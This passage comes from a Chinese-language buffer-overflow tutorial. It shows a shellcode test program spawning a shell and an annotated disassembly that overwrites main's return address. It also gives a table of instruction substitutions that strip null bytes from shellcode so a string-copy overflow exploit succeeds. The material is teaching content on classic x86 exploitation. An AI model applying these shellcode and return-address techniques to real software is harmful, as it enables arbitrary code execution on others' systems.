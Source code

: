[scz@ /home/scz/src]> gcc -o shelltest shelltest.c
[scz@ /home/scz/src]> ./shelltest
$ exit
[scz@ /home/scz/src]>

那说明一切都成功了！为了帮助你理解，我们还是来看看这段程序究竟做了什么：

objdump -j .text -Sl shelltest | more
/main
得到如下结果：

08048398 :
main():
8048398:       55                      pushl  %ebp
8048399:       89 e5                   movl   %esp,%ebp
804839b:       83 ec 04                subl   $0x4,%esp             # 给局部变量预留空间
804839e:       8d 45 fc                leal   0xfffffffc(%ebp),%eax # ebp - 4 => eax
                                                                     # 取了栈顶指针
                                                                     # 为什么不直接用esp赋值？
80483a1:       8d 50 08                leal   0x8(%eax),%edx        # eax + 8 => edx
                                                                     # edx现在指向IP
80483a4:       89 55 fc                movl   %edx,0xfffffffc(%ebp) # edx     => [ ebp - 4 ]
                                                                     # 把IP的地址放入局部变量中
80483a7:       8b 45 fc                movl   0xfffffffc(%ebp),%eax # ebp - 4 => eax
                                                                     # eax现在保存着IP的地址
80483aa:       c7 00 40 94 04 08       movl   $0x8049440,(%eax)     # 修改了返回地址
80483b0:       c9                      leave
80483b1:       c3                      ret
80483b2:       90                      nop

19. 最后的调整

它现在工作了，但还有个小问题。大多数情况下我们都是试图overflow一个字符型
buffer，因此在我们的shellcode中任何的null字节都会被认为是字符串的结束，copy过程
就被中止了。因此要使exploit工作，shellcode中不能有null字节，我们可以略微调整一
下代码：

有问题的指令                替代指令
--------------------------------------------------------
movb   $0x0,0x8(%esi)       xorl   %eax,%eax
movl   $0x0,0xd(%esi)       movb   %eax,0x8(%esi)
                            movl   %eax,0xd(%esi)
--------------------------------------------------------
movl   $0xb,%eax            movb   $0xb,%al
--------------------------------------------------------
movl   $0x1, %eax           xorl   %ebx,%ebx
movl   $0x0, %ebx           movl   %ebx,%eax
                            inc    %eax
--------------------------------------------------------
